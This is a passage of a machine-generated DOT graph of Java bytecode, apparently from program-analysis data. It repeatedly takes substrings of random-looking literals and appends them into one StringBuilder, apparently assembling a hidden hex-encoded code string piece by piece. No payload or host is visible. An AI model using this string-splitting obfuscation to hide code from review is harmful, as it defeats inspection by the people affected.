    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e6cDG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e6cDG\"";
    "push \"e6cDG\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"BnH374vW\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"BnH374vW\"";
    "push \"BnH374vW\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"TY69HZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"TY69HZ\"";
    "push \"TY69HZ\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Nqw66fLc2L\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Nqw66fLc2L\"";
    "push \"Nqw66fLc2L\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6eWb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6eWb\"";
    "push \"6eWb\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"byu28\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"byu28\"";
    "push \"byu28\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aR297\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aR297\"";
    "push \"aR297\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1P16b698tV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1P16b698tV\"";
    "push \"1P16b698tV\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"u662\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"u662\"";
    "push \"u662\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4582BrW\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4582BrW\"";
    "push \"4582BrW\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Vq8863GE2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Vq8863GE2\"";
    "push \"Vq8863GE2\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"d5Ta613PQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"d5Ta613PQ\"";
    "push \"d5Ta613PQ\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Vp1s766\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Vp1s766\"";
    "push \"Vp1s766\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"v12erG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"v12erG\"";
    "push \"v12erG\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2E6c6h\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2E6c6h\"";
    "push \"2E6c6h\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lUU16\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lUU16\"";
    "push \"lUU16\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aT8e67jW6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aT8e67jW6\"";
    "push \"aT8e67jW6\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MCkH2e5g3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MCkH2e5g3\"";
    "push \"MCkH2e5g3\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"F379\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"F379\"";
    "push \"F379\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"737fP15\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"737fP15\"";
    "push \"737fP15\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"U4656\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"U4656\"";
    "push \"U4656\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"c6d2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"c6d2\"";
    "push \"c6d2\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e6p\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e6p\"";
    "push \"e6p\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"DV766\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"DV766\"";
    "push \"DV766\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jml57\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jml57\"";
    "push \"jml57\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yj45sD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yj45sD\"";
    "push \"yj45sD\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"365v\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"365v\"";
    "push \"365v\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3n637Yhj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3n637Yhj\"";
    "push \"3n637Yhj\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Pr572GCM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Pr572GCM\"";
    "push \"Pr572GCM\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7N697uU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7N697uU\"";
    "push \"7N697uU\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"v4793VYn\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"v4793VYn\"";
    "push \"v4793VYn\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PayS4dh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PayS4dh\"";
    "push \"PayS4dh\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Hz0Y61drj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Hz0Y61drj\"";
    "push \"Hz0Y61drj\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"p6e6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"p6e6\"";
    "push \"p6e6\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PA16q\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PA16q\"";
    "push \"PA16q\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4P76\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4P76\"";
    "push \"4P76\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PFYj57243b\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PFYj57243b\"";
    "push \"PFYj57243b\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"T282jB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"T282jB\"";
    "push \"T282jB\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"920\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"920\"";
    "push \"920\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"VT213\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"VT213\"";
    "push \"VT213\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wv7hd20kkN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wv7hd20kkN\"";
    "push \"wv7hd20kkN\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Fa6e7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Fa6e7\"";
    "push \"Fa6e7\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"skg56cAEA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"skg56cAEA\"";
    "push \"skg56cAEA\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6cSfz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6cSfz\"";
    "push \"6cSfz\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"292MqH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"292MqH\"";
    "push \"292MqH\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"D023EYM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"D023EYM\"";
    "push \"D023EYM\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"626\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"626\"";
    "push \"626\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"11SU20Y0a\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11SU20Y0a\"";
    "push \"11SU20Y0a\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b8Fg286D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b8Fg286D\"";
    "push \"b8Fg286D\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2ak7921ql\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2ak7921ql\"";
    "push \"2ak7921ql\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"03cL2F\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"03cL2F\"";
    "push \"03cL2F\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3d\"";
    "push \"3d\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"WJ2034uQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"WJ2034uQ\"";
    "push \"WJ2034uQ\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"LRn32JY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"LRn32JY\"";
    "push \"LRn32JY\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hT9294\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hT9294\"";
    "push \"hT9294\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"y7b7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"y7b7\"";
    "push \"y7b7\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"vm472\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"vm472\"";
    "push \"vm472\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"79a\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"79a\"";
    "push \"79a\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7b6FBu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7b6FBu\"";
    "push \"7b6FBu\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"GkC8a61\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"GkC8a61\"";
    "push \"GkC8a61\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"eTuW76VQ2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"eTuW76VQ2\"";
    "push \"eTuW76VQ2\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5T61y5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5T61y5\"";
    "push \"5T61y5\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uy2eDza7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uy2eDza7\"";
    "push \"uy2eDza7\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"46c6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"46c6\"";
    "push \"46c6\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"16DAQg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"16DAQg\"";
    "push \"16DAQg\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b2ze6RhC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b2ze6RhC\"";
    "push \"b2ze6RhC\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"u72eD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"u72eD\"";
    "push \"u72eD\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Mr53Vg2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Mr53Vg2\"";
    "push \"Mr53Vg2\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
